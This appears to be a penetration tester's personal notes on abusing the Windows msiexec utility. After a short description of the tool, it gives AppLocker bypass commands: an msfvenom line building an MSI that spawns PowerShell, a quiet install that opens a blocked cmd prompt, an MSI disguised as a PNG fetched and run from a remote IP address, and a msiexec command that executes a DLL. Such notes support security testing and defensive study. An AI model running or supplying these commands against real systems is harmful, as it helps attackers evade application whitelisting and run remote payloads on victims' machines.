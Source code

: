# msiexec
20240402
!! need to process this link still : https://badoption.eu/blog/2023/10/03/MSIFortune.html
[[applocker]]
[[privilege_escalation]]

## About

MsiExec.exe is the executable program of the Windows Installer used to interpret installation packages and install products on target systems. After you build your release, you can install your Windows Installer package (.msi) from the command line. Currently, there is no support for passing Windows Installer parameters other than at the Setup.exe command line. To ensure that Windows Installer is installed on a target system, InstallShield creates a Setup.exe for your application by default. Setup.exe installs Windows Installer if it is not present on the target system or upgrades Windows Installer if an older version is present.

After building a release of your product, you can install it from the command line.

https://docs.revenera.com/isxhelp23/helplibrary/IHelpCmdLineMSI.htm
## AppLocaker bypass
### metasploit
[[poc]]
We can use [[metasploit]] in conjunction with msiexec. Where msfvenom can be used to generate MSI files that execute a command or payload. 

```
msfvenom -f msi -p windows/exec CMD=powershell.exe > powershell.msi
```
When the above is exucted the powershell.msi will spawn [[powershell]] bypassing [[applocker]]. 

https://docs.revenera.com/isxhelp23/helplibrary/IHelpCmdLineMSI.htm
### cmd 
If [[cmd]] is blocked, then we can run the following in a run window to bypass the [[applocker]] on [[cmd]]
```
msiexec /quiet /i cmd.msi
```
The cmd prompt will then open. 

https://docs.revenera.com/isxhelp23/helplibrary/IHelpCmdLineMSI.htm

### png files 

Alternatively msiexec utility has the ability to run MSI files that have been renamed to PNG. These files can be executed either locally or remotely from a command prompt or from Windows Run bypassing AppLocker rules. [[png_files]]
```
msiexec /q /i http://192.168.100.3/tmp/cmd.png
```
https://docs.revenera.com/isxhelp23/helplibrary/IHelpCmdLineMSI.htm

## DLL Execution
[[poc]]
Using the following command we can execute a dll file. See below: 

![[images_msiexec_1.png]]
```
msiexec /y C:\path\to\sussy.dll
```
https://twitter.com/PhilipTsukerman/status/992021361106268161



